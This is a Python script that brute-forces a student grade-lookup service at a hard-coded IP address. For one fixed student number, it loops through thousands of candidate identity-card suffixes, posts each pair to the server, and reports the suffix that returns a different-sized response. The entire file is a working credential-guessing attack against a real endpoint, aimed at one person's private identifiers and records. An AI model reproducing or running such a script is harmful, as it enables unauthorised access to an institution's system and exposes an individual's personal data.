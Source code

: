 import urllib.request
import time
import sys
def yJudge(num,id):
    #return False
    data = 'xh={xh}&sfzh={sfzh}'.format(sfzh=id,xh=num)
    data = data.encode('utf-8')
    request = urllib.request.Request('http://222.177.140.104//showStuQmcj.php')
    request.add_header("Content-Type", "application/x-www-form-urlencoded;charset=utf-8")
    try:
        f = urllib.request.urlopen(request, data)
        res = f.read()
        #print(len(res))#
        if len(res) == 29:
            return False
        else:
            return True
    except:
        #sys.stdout.write('\r')
        print('restart!!{num}&{id} {t}'.format(num=num,id=id,t=time.ctime()),end='\r')
        sys.stdout.flush()
        yJudge(num,id);
def main():
    num = 2017212047
    start = 10728
    end = 29220
    i = 0
    for id_head in range(start,end,2):
        #from 051840 only even
        for id_tail in ['0','1','2','3','4','5','6','7','8','9','x']:
            i = i+1
            id = '{head:0>5}{tail}'.format(tail=id_tail,head=id_head)
            #print(id)
            if yJudge(num,id):
                print('Get!xh={xh}&sfzh={sfzh}'.format(sfzh=id,xh=num))
                return None
            else:
                print('Wrong,xh={xh}&sfzh={sfzh} {ratio:>8.4%} {t}'.format(sfzh=id,xh=num,ratio=2*i/(11*(end-start)),t=time.ctime()))
main()

